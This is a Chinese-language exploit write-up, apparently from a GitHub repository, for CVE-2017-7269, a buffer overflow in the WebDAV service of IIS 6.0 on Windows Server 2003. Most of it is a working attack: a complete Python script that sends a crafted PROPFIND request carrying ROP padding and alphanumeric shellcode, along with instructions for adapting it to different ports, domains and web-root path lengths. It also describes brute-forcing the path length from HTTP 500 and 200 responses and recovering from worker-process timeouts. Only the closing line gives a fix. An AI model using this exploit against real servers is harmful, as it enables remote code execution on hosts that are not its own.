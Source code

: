 ## CVE-2017-7269

Microsoft Windows Server 2003 R2中的Internet信息服务（IIS）6.0中的WebDAV服务中的ScStoragePathFromUrl函数中的缓冲区溢出允许远程攻击者通过以"If：<http：//"开头的长标头执行任意代码PROPFIND请求。

影响范围：
在Windows 2003 R2（Microsoft(R) Windows(R) Server 2003, Enterprise Edition Service Pack 2）上使用IIS 6.0并开启WebDAV扩展。


复现：

CVE作者给出的[exp](https://github.com/edwardz246003/IIS_exploit/blob/master/exploit.py) 计算机弹弹弹！！！
用python2 运行，结果如下。
![CVE-2017-7269-01](./pic/CVE-2017-7269-01.png)
任务管理器开启了calc.exe进程，因为计算器是网络服务权限打开的，所以我们在桌面上看不见。

这个漏洞有几个需要注意的地方，如下。

由于作者提供的Exp执行之后就卡在那里了，因此不适合用弹计算机的shellcode进行测试，网上找了个dalao的回显shellcode来测试。

首先将上图中python2 IDE运行时产生的Raw类型的HTTP数据包copy保存至记事本中，然后在Burp Repeater模块 Paste from file。

将shellcode更换成如下：
```
VVYA4444444444QATAXAZAPA3QADAZABARALAYAIAQAIAQAPA5AAAPAZ1AI1AIAIAJ11AIAIAXA58AAPAZABABQI1AIQIAIQI1111AIAJQI1AYAZBABABABAB30APB944JBRDDKLMN8KPM0KP4KOYM4CQJIOPKSKPKPTKLITKKQDKU0G0KPKPM00QQXI8KPM0M0K8KPKPKPM0QNTKKNU397O00WRJKPSSI7KQR72JPXKOXPP3GP0PPP36VXLKM1VZM0LCKNSOKON2KPOSRORN3D35RND4NMPTD9RP2ENZMPT4352XCDNOS8BTBMBLLMKZOSROBN441URNT4NMPL2ERNS7SDBHOJMPNQ03LMLJPXNM1J13OWNMOS2H352CBKOJO0PCQFOUNMOB00NQNWNMP7OBP6OILMKZLMKZ130V15NMP2P0NQP7NMNWOBNV09KPM0A
```
结果：
![CVE-2017-7269-02](./pic/CVE-2017-7269-02.png)

CVE作者给出的Exp是在默认端口，默认域名，默认路径的情况下适用。

第一个需要注意的是端口和域名绑定问题：

当端口改变时，If头信息中的两个url端口要与站点端口一致，如下。
![CVE-2017-7269-03](./pic/CVE-2017-7269-03.png)

当域名改变时，If头信息中的两个url域名要与站点域名一致，且HOST头也要与站点域名一致。如下
![CVE-2017-7269-04](./pic/CVE-2017-7269-04.png)

不修改Host将返回502,如下
![CVE-2017-7269-05](./pic/CVE-2017-7269-05.png)

Note:
```
测试的时候凡是需要修改IIS配置的操作，修改完毕后都需要重启IIS，
或者在不超过禁用阈值的前提下结束w3wp进程。
```

第二个需要注意的是物理路径问题：

CVE作者提供的Exp是在 默认路径长度等于19(包括结尾的反斜杠)的情况下适用，IIS默认路径一般为：`c:\inetpub\wwwroot`

解决方法：

当路径长度小于19时需要对padding进行添加。
当路径长度大于19时需要对padding进行删除。

ROP和stackpivot前面的padding实际上为UTF8编码的字符，每三个字节解码后变为两个字节的UTF16字符，在保证Exp不出错的情况下，有0x58个字符是没用的。所以可以将前0x108个字节删除，换成0x58个a或b。

原exp 修改后如下：
``` python
# coding:utf-8
import socket  
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)  
sock.connect(('192.168.124.129',8888))  
pay='PROPFIND / HTTP/1.1\r\nHost: www.lxhsec.com\r\nContent-Length: 0\r\n'
pay+='If: <http://www.lxhsec.com:8888/aaaaaaa'
pay+='aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa'
pay+='\xe6\xa9\xb7\xe4\x85\x84\xe3\x8c\xb4\xe6\x91\xb6\xe4\xb5\x86\xe5\x99\x94\xe4\x9d\xac\xe6\x95\x83\xe7\x98\xb2\xe7\x89\xb8\xe5\x9d\xa9\xe4\x8c\xb8\xe6\x89\xb2\xe5\xa8\xb0\xe5\xa4\xb8\xe5\x91\x88\xc8\x82\xc8\x82\xe1\x8b\x80\xe6\xa0\x83\xe6\xb1\x84\xe5\x89\x96\xe4\xac\xb7\xe6\xb1\xad\xe4\xbd\x98\xe5\xa1\x9a\xe7\xa5\x90\xe4\xa5\xaa\xe5\xa1\x8f\xe4\xa9\x92\xe4\x85\x90\xe6\x99\x8d\xe1\x8f\x80\xe6\xa0\x83\xe4\xa0\xb4\xe6\x94\xb1\xe6\xbd\x83\xe6\xb9\xa6\xe7\x91\x81\xe4\x8d\xac\xe1\x8f\x80\xe6\xa0\x83\xe5\x8d\x83\xe6\xa9\x81\xe7\x81\x92\xe3\x8c\xb0\xe5\xa1\xa6\xe4\x89\x8c\xe7\x81\x8b\xe6\x8d\x86\xe5\x85\xb3\xe7\xa5\x81\xe7\xa9\x90\xe4\xa9\xac'
pay+='>'
pay+=' (Not <locktoken:write1>) <http://www.lxhsec.com:8888/bbbbbbb'
pay+='bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb'
pay+='\xe5\xa9\x96\xe6\x89\x81\xe6\xb9\xb2\xe6\x98\xb1\xe5\xa5\x99\xe5\x90\xb3\xe3\x85\x82\xe5\xa1\xa5\xe5\xa5\x81\xe7\x85\x90\xe3\x80\xb6\xe5\x9d\xb7\xe4\x91\x97\xe5\x8d\xa1\xe1\x8f\x80\xe6\xa0\x83\xe6\xb9\x8f\xe6\xa0\x80\xe6\xb9\x8f\xe6\xa0\x80\xe4\x89\x87\xe7\x99\xaa\xe1\x8f\x80\xe6\xa0\x83\xe4\x89\x97\xe4\xbd\xb4\xe5\xa5\x87\xe5\x88\xb4\xe4\xad\xa6\xe4\xad\x82\xe7\x91\xa4\xe7\xa1\xaf\xe6\x82\x82\xe6\xa0\x81\xe5\x84\xb5\xe7\x89\xba\xe7\x91\xba\xe4\xb5\x87\xe4\x91\x99\xe5\x9d\x97\xeb\x84\x93\xe6\xa0\x80\xe3\x85\xb6\xe6\xb9\xaf\xe2\x93\xa3\xe6\xa0\x81\xe1\x91\xa0\xe6\xa0\x83\xcc\x80\xe7\xbf\xbe\xef\xbf\xbf\xef\xbf\xbf\xe1\x8f\x80\xe6\xa0\x83\xd1\xae\xe6\xa0\x83\xe7\x85\xae\xe7\x91\xb0\xe1\x90\xb4\xe6\xa0\x83\xe2\xa7\xa7\xe6\xa0\x81\xe9\x8e\x91\xe6\xa0\x80\xe3\xa4\xb1\xe6\x99\xae\xe4\xa5\x95\xe3\x81\x92\xe5\x91\xab\xe7\x99\xab\xe7\x89\x8a\xe7\xa5\xa1\xe1\x90\x9c\xe6\xa0\x83\xe6\xb8\x85\xe6\xa0\x80\xe7\x9c\xb2\xe7\xa5\xa8\xe4\xb5\xa9\xe3\x99\xac\xe4\x91\xa8\xe4\xb5\xb0\xe8\x89\x86\xe6\xa0\x80\xe4\xa1\xb7\xe3\x89\x93\xe1\xb6\xaa\xe6\xa0\x82\xe6\xbd\xaa\xe4\x8c\xb5\xe1\x8f\xb8\xe6\xa0\x83\xe2\xa7\xa7\xe6\xa0\x81'
shellcode='VVYA4444444444QATAXAZAPA3QADAZABARALAYAIAQAIAQAPA5AAAPAZ1AI1AIAIAJ11AIAIAXA58AAPAZABABQI1AIQIAIQI1111AIAJQI1AYAZBABABABAB30APB944JBRDDKLMN8KPM0KP4KOYM4CQJIOPKSKPKPTKLITKKQDKU0G0KPKPM00QQXI8KPM0M0K8KPKPKPM0QNTKKNU397O00WRJKPSSI7KQR72JPXKOXPP3GP0PPP36VXLKM1VZM0LCKNSOKON2KPOSRORN3D35RND4NMPTD9RP2ENZMPT4352XCDNOS8BTBMBLLMKZOSROBN441URNT4NMPL2ERNS7SDBHOJMPNQ03LMLJPXNM1J13OWNMOS2H352CBKOJO0PCQFOUNMOB00NQNWNMP7OBP6OILMKZLMKZ130V15NMP2P0NQP7NMNWOBNV09KPM0A'
pay+=shellcode
pay+='>\r\n\r\n'
print pay
sock.send(pay)  
data = sock.recv(80960)  
print data 
sock.close
```
执行：
![CVE-2017-7269-07](./pic/CVE-2017-7269-07.png)

当路径长度小于19时，如下，需要增加12个a，b
![CVE-2017-7269-08](./pic/CVE-2017-7269-08.png)

![CVE-2017-7269-10](./pic/CVE-2017-7269-10.png)

而实际中路径常常大于19，需要对padding进行删除。

当路径为`c:\www\`的时候，a有107个，加起来有114个，除去盘符有111个字符，所以可以把Exp的padding增加至111，并逐次进行减少。当长度不匹配时返回500，成功时返回200，通过爆破方式得到物理路径长度。

成功:

![CVE-2017-7269-11](./pic/CVE-2017-7269-11.png)

失败:

![CVE-2017-7269-09](./pic/CVE-2017-7269-09.png)

当然如果能得到物理路径，则用114减去物理路径长度（包括末尾的反斜杠）就是所需的padding长度。


第三个需要注意的是，超时问题。

当exp执行成功一段时间之后（大概十分钟到二十分钟左右，其间无论有无访问），再对这个站点执行exp永远不会成功，同时返回400。

解决方法：

1.等待w3wp重启。

2.测试旁站（因为每个池都是独立的w3wp进程，换一个可能在其他池的旁站进行尝试）


第四个需要注意的是，多次执行错误shellcode

多次执行错误的shellcode会覆盖很多不该覆盖的代码，从而导致正确的shellcode执行时也返回500，
提示信息为：参数不正确，也可能什么都不返回。

![CVE-2017-7269-06](./pic/CVE-2017-7269-06.png)

解决方法：

1.等待w3wp重启。

2.测试旁站（因为每个池都是独立的w3wp进程，换一个可能在其他池的旁站进行尝试）

### 修复建议
关闭 WebDAV